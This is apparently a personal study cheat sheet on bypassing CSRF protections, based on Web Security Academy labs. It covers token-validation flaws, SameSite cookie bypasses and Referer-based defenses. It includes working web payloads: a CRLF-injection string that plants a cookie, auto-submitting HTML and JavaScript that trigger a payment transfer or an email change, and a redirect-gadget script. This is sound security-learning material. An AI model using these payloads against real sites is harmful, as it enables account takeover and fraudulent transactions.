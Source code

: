 

# Bypassing CSRF token validation

### Validation of CSRF token depends on request method

-try diffrent methods

### Validation of CSRF token depends on token being present

-remove paramter

### CSRF token is not tied to the user session

-obtain a token and use it

### CSRF token is tied to a non-session cookie

EX:
```
POST /email/change HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 68  
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv  
  
csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```
### CSRF token is tied to a length
- change a char



use crlf injection EX :

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```


### CSRF token is simply duplicated in a cookie

-some applications do not maintain any server-side record of tokens that have been issued

-the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie-but

-instead duplicate each token within a cookie and a request parameter.

EX:
```
POST /email/change HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 68  
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa  
  
csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```



# Bypassing SameSite cookie restrictions

### Bypassing SameSite Lax restrictions using GET requests

- craft get link
```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

- method override


for example Symfony supports the _method parameter 
```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

### Bypassing SameSite restrictions using on-site gadgets (Strict , Lax )

- find a gadget that results in a secondary request within the same site

EX : DOM-based open redirection.

```html
<script>  
document.location =```https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?  
postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1```;  
</script>
```


### Bypassing SameSite restrictions via vulnerable sibling domains

-xss

-Cross-site WebSocket hijacking


# Bypassing Referer-based CSRF defenses

### Validation of Referer depends on header being present

 HTML page that hosts the CSRF attack contain:  
```html
<meta name="referrer" content="never">
```
